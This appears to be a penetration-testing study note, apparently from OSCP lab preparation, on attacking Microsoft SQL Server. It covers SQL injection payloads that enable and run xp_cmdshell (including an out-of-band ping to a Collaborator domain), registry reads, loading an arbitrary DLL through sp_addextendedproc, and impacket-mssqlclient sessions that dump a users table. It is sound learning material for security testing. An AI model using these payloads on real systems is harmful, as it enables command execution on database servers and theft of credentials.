 
INIT
# MSSQL
A [DBMS](../../coding/databases/DBMS.md) which works natively w/ Windows. The built-in command line tool for working with MSSQL is `SQLCMD`.  `SQLCMD` allows [SQL](../../coding/languages/SQL.md) queries to be ran through Windows Command prompt or *remotely from another device.*
# MSSQLi (SQL Injection)
## Manual Testing
### `xp_cmdshell`
If you've verified that you can execute commands via `xp_cmdshell` with your injection, then you can use it to execute MSSQL's stored procedures. To execute stored procedures you need to have *admin access*. Additionally, it is *disabled by default*, so you need to make sure to *enable it* first.
#### Enabling `xp_cmdshell`
With admin access, you can enable procedures as follows:
```sql
EXEC sp_configure 'show advanced options',1 
RECONFIGURE

EXEC sp_configure 'xp_cmdshell',1 
RECONFIGURE
```
#### Verify Execution w/ `ping`
One easy way to check for code execution in a [blind-SQLi](../../OSCP/web-apps/SQLi/blind-SQLi.md) MSSQLi is to use the `ping` command from `xp_cmdshell`. Have it ping an IP address or domain that you own. For example, you could use [burp-suite](../../cybersecurity/TTPs/delivery/tools/burp-suite.md)'s Collaborator to generate a domain to ping.

Example injection:
```sql
admin'; EXEC master.dbo.xp_cmdshell 'ping ymomnqqz95p67xfo6rfj3px7jyppdf14.oastify.com'--
```
Collaborator: (received two DNS requests)
![](../../OSCP/challenge-labs/challenge-labs-pics/medtech-1.png)
#### Getting a Shell
Typical payload to get the command prompt:
```sql
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:'--
```
#### Performing registry operations in SQL Server (S)
Stored procedures can also be used to perform various registry operations. Some of these are undocumented and may change:
-  `xp_regaddmultistring`
-  `xp_regdeletekey`
-  `xp_regdeletevalue`
-  `xp_regenumkeys`
-  `xp_regenumvalues`
-  `xp_regread`
-  `xp_regremovemultistring`
-  `xp_regwrite`
An example of using the `xp_regread` procedure:
```sql
'; exec xp_regread HKEY_LOCAL_MACHINE, 'SYSTEM\CurrentControlSet\Services\lanmanserver\parameters', 'nullsessionshares' 
exec xp_regenumvalues HKEY_LOCAL_MACHINE, 'SYSTEM\CurrentControlSet\Services\snmp\parameters\validcommunities'--
```
#### `sp_addextendedproc`
You can also use `sp_addextendedproc` to add a new procedure, which basically lets you execute arbitrary code: 
```sql
'; sp_addextendedproc 'xp_webserver', 'c:\temp\x.dll'--
';exec xp_webserver--
```
#### Other useful stored procedures for SQL Server: 
- Managing services: `xp_servicecontrol`
- Listing storage media: `xp_availablemedia`
- Listing ODBC resources: `xp_enumdsn`
- Managing the login mode: `xp_loginconfig`
- Creating CAB files: `xp_makecab`
- Listing domains: `xp_ntsec_enumdomains`
- Process termination (you need to know the PID): `xp_terminate_process`
- Writing an HTML file to a UNC or internal path: `sp_makewebtask`
## TDS & `impacket`
Tabular Data Stream is a network protocol used by MSSQL and implemented into the [impacket](../../cybersecurity/TTPs/exploitation/tools/impacket.md) Python framework. We can use `impacket-mssqlclient` from Impacket to interact with a MSSQL instance.
### `impacket-mssqlclient`
To connect to a remote machine running MSSQL, we can use Impacket's `impacket-mssqlclient` tool. To do so, we provide a username, password, and remote [IP address](../../networking/OSI/3-network/IP-addresses.md) as well as the `windows-auth` keyword:
```bash
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (SQLPLAYGROUND\Administrator  dbo@master)>
```
The `windows-auth` flag *forces [NTLM](../../networking/protocols/NTLM.md) authentication* instead of [kerberos](../../networking/protocols/kerberos.md).  Once we connect to the MSSQL instance, we can inspect the currently running version using the `@@version` command:
#### `@@version`
```sql
SQL (SQLPLAYGROUND\Administrator  dbo@master)> SELECT @@version;
...

Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)
	Sep 24 2019 13:48:23
	Copyright (C) 2019 Microsoft Corporation
	Express Edition (64-bit) on Windows Server 2022 Standard 10.0 <X64> (Build 20348: ) (Hypervisor)
```
#### Listing databases
```sql
SQL (SQLPLAYGROUND\Administrator  dbo@master)> SELECT name FROM sys.databases;
name
...
master

tempdb

model

msdb

offsec

SQL>
```
Out of the databases listed, only the one named "offsec" is custom. The others are *all default databases* that come with MSSQL. `sys.databases` is the "system catalog."
#### Querying a database
If we want to look at the "offsec" database, we can use a SQL query:
```sql
SQL (SQLPLAYGROUND\Administrator  dbo@master)> SELECT * FROM offsec.information_schema.tables;
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME   TABLE_TYPE   
-------------   ------------   ----------   ----------   
offsec          dbo            users        b'BASE TABLE'   

SQL (SQLPLAYGROUND\Administrator  dbo@master)> 
```
The only table listed is the `users` table.
#### Inspecting a table
To inspect a table, we need to specify the `dbo` table schema *between the database and the table's name*:
```sql
SQL>select * from offsec.dbo.users;
username     password     
----------   ----------   
admin        lab        

guest        guest 
```
The out shows that the `users` table only has two columns: `username` and `password`. There are only two users listed in the table `admin` and `guest`. 

> [!Resources]
> - [Offsec](offsec.com)
> - [Invicti: SQLi Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#UnionInjections)

> [!Related]
> - [`mssqlclient.py`](../../cybersecurity/TTPs/exploitation/tools/impacket.md#`mssqlclient.py`) Impacket tool